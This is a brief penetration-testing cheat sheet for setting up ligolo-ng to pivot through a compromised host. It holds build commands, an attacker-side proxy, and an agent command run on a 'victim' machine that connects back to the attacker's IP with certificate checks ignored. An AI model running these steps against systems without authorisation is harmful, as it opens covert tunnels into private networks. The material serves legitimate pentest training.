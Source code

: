 # LIGOLO

## Pre-requisite

```bash
sudo apt install golang-go
```

## Install

```bash
cd /opt
sudo git clone https://github.com/nicocha30/ligolo-ng
cd ligolo-ng
sudo go build -o agent cmd/agent/main.go
sudo go build -o proxy cmd/proxy/main.go
```

## Creating a TUN Interface (kali)

```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

## Starting the Proxy Server (kali)

```bash
cd /opt/ligolo-ng
./proxy -selfcert
```

## Agent (victim)

https://github.com/nicocha30/ligolo-ng/releases

```bash
./agent -connect kali_ip:11601 -ignore-cert
```

## Adding a new route on Proxy Server (kali)

```bash
sudo ip route add ip_to_reach_on_victim/24 dev ligolo
```

## Start session (kali/proxy)

- Type `session`
- Select the session
- Type `start`
